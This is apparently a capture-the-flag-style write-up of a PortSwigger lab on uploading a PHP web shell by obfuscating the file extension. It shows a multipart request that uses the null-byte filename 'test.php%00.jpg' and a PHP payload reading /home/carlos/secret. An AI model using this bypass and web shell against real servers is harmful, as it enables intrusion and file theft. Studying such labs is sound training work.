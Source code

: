 
# Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/1.png)

---------------------------------------------

It is not possible to upload PHP files:



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/2.png)


I tried to upload the file with the names:

- “test.php.jpg” but it is interepreted as an image.

- “test.php.” but it is not accepted

- “test%2Ephp” but it is not accepted


The payload “test.php%00.jpg” uploads a file “test.php”:

```
POST /my-account/avatar HTTP/2
...
-----------------------------384622689610978532422380962615
Content-Disposition: form-data; name="avatar"; filename="test.php%00.jpg"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------384622689610978532422380962615
...
```



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/3.png)


The file test.php has been created:



![img](images/Web%20shell%20upload%20via%20obfuscated%20file%20extension/4.png)
